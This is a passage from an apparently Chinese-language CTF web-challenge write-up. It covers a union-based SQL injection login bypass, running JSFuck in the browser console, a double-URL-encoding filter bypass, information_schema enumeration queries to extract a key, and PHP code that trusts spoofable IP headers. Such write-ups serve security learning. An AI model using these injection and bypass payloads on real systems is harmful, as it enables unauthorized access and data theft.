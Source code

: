 可以直接用union来构建一条记录即可，最终的payload
`user=' union select 'e10adc3949ba59abbe56e057f20f883e'#&pass=123456`

<br>

### what a fuck!这是什么鬼东西?
是jsfuck的内容，直接复制内容仍到浏览器F12的Console里面运行。运行后一个弹窗中有密码，得到flag。

<br>

### PHP大法
提醒的index.php.txt中有源码
```php
if(eregi("hackerDJ",$_GET[id])) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "hackerDJ")
{
  echo "<p>Access granted!</p>";
  echo "<p>flag: *****************} </p>";
}
```
这，直接传入`经过两次URL编码的hackerDJ`即可，因为第一次验证的适合，服务器会自动URL解码一次，但是还是URL的内容自然不通过
但是代码又把他URL解码了一次，那么就变回了`hackDJ`，所以匹配
最后的payload是`?id=%25%36%38%25%36%31%25%36%33%25%36%62%25%36%35%25%37%32%25%34%34%25%34%61`

<br>

### 这个看起来有点简单!
这个。。我直接按照直觉判断，因为想想分数那么低，可能没做什么过滤，所以整个过程很顺利，就用了那么几条语句
```
?id=1
?id=2
?id=2-1
?id=1||1
?id=1||1 union select 1,2
?id=1||1 union select 1,table_name from information_schema.tables where table_schema=database() # thiskey
?id=1||1 union select 1,column_name from information_schema.columns where table_name='thiskey' #	k0y
?id=1||1 union select 1,k0y from thiskey
```


<br>

### 貌似有点难
```php
function GetIP(){
if(!empty($_SERVER["HTTP_CLIENT_IP"]))
	$cip = $_SERVER["HTTP_CLIENT_IP"];
else if(!empty($_SERVER["HTTP_X_FORWARDED_FOR"]))
	$cip = $_SERVER["HTTP_X_FORWARDED_FOR"];
else if(!empty($_SERVER["REMOTE_ADDR"]))
	$cip = $_SERVER["REMOTE_ADDR"];
else
	$cip = "0.0.0.0";
return $cip;
}

$GetIPs = GetIP();
if ($GetIPs=="1.1.1.1"){
echo "Great! Key is *********";
```